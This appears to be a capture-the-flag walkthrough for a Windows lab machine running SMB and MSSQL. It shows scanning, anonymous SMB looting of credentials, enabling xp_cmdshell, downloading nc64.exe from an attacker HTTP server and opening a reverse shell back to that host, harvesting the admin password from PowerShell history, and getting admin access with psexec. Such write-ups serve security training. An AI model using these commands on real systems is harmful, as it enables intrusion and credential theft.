







# TASK 1

- First step is to scann all open ports and services running:

One to have a general idea:

```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <ip> -oG allPorts
```


And other to learn about specific aspects of each service:

```nmap -sCV -p135,139,445,1433,5985,47001 <ip> -oG targeted``` 



We have diferent interesting things to look at:

Port 445: a service running on SMB
Port 1433: a database

# TASK 2

- Using **smbclient** connect to the service and enumerate shares:



# TASK 3

- Conect to the shared file

`smbclient //[IP]/backups -N`

- Enumerate the files with `ls`

- Then look inside the file for the password with `more [file_name]`

# TASK 4
Now that we know some creds the next step is to connect to another service.

In this case go for mssql (a database).

To be able to connect we need an executable from a python library called Impacket. The file would be `mssqlclient.py`

# TASK 5

- With the credentials obtained before and the library Impacket we are able to connect to the port 1433.
> In case you haven't downloaded the library, you'll find it on https://github.com/SecureAuthCorp/impacket

```
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@[IP] -windows-auth
```
And if everything went correctly, this should be the result:



- See if the connected session has the rol 'sysadmin'
`SELECT is_srvrolemember('sysadmin');`

It returns '1', therefore we are.

- Follow with xp_cmdshell to execute powershell commands
> I found how to use the xp_cmdshell on https://insidersecurity.co/exploitation-of-xp_cmdshell-in-ms-sql-critical-risks-how-to-defend/

```
EXEC sp_configure 'show advanced options', 1;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
Then `EXEC xp_cmdshell 'whoami';`



We can see that it works.

# TASK 6

**Next Step**: Get a revershell

- Download nc for windows from https://github.com/int0x33/nc.exe.git, called `nc64.exe`

- Open a python server `sudo python3 -m http.server 80`

- Listen to a port of your own choosing `sudo nc -nlvp 443`

- On the target machine, download `nc64.exe`

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.194/nc64.exe -outfile nc64.exe"
```

- Now execute it.

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.194 443"
```
And going back to our terminal:



# TASK 7

- Look for powershell history

```
cd C:\\Users\\sql_svc\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\
```

```
more ConsoleHost_history.txt
```


>Inside the file, there is a password for the root user.

# Root

- Connect to the target machine with root credentials

``` 
python3 psexec.py administrator@10.129.118.167
```

- Go to `C:\\Users\\Administrator\\Desktop` where the root flag will be.

